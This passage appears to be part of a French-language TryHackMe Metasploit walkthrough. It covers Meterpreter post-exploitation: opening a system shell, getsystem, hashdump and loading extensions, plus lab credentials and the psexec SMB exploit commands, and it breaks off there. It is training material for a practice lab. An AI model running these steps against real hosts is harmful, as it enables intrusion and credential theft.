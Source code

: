 **Obtenir un shell système**

La commande `shell` lance un shell de commande standard du système :

```bash
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

---

### Task 5 - Post-Exploitation Challenge

#### Introduction au challenge

Ce challenge pratique met en œuvre les commandes apprises précédemment. Nous utiliserons notamment :

- `getsystem` pour l'élévation de privilèges
- `hashdump` pour l'extraction de hashes
- `load` pour charger des extensions supplémentaires

**Exemple de chargement d'extension :**

```bash
meterpreter > load python
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!
```

#### Informations de connexion

**Credentials fournis pour la compromission initiale :**

- **Méthode** : Exploitation SMB avec `exploit/windows/smb/psexec`
- **Nom d'utilisateur** : `ballen`
- **Mot de passe** : `Password1`

---

#### Questions et résolutions

**Question 1 : What is the computer name?**

**Configuration de l'exploit :**

```bash
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.19.109
msf6 exploit(windows/smb/psexec) > set SMBUser ballen
msf6 exploit(windows/smb/psexec) > set SMBPass Password1
msf6 exploit(windows/smb/psexec) > run
```
